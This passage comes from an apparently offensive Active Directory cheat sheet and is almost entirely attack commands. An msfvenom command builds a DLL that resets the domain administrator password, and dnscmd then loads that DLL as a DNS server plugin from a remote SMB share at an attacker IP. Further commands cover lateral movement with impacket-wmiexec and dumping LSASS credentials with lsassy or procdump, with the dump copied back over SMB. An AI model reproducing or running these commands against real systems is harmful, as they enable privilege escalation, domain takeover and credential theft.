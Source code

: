 
you can also create a dll file using msfvenom : `msfvenom -p windows/x64/exec cmd='net user administrator aked /domain' - f dll > evil.dll` it'll execute `net user administrator aked /domain` with SYSTEM privileges

set the remote DLL path into the Windows Registry

```
dnscmd dc01 /config /serverlevelplugindll \\10.10.14.33\share\evil.dll
```

`\\10.10.14.33\share\evil.dll` : SMB Share.

**restart DNS service**

```
sc.exe stop dns
sc.exe start dns
```

### Lateral Mouvement

#### WMIExec

_uses kerberos auth_

```
impacket-wmiexec -k -no-pass administrator@10.10.10.248
```

### Credentials Dumping

#### LSASS Dumping

```
cme <protocol> <ip> -u <user> -p <pass> -M lsassy
```

* [https://github.com/Hackndo/lsassy](https://github.com/Hackndo/lsassy)

```
procdump --accepteula -ma lsass lsass.dmp
```

```
smbclient.py MEGACORP.LOCAL/john@dc01.megacorp.local
# use C$
# cd Windows\Temp
# put procdump.exe
```

```
psexec.py MEGACORP.LOCAL/john@dc01.megacorp.local "C:\\Windows\\Temp\\procdump.exe -accepteula -ma lsass C:\\Windows\\Temp\\lsass.dmp"
```

```
smbclient.py MEGACORP.LOCAL/john@dc01.megacorp.local
# get lsass.dmp
```
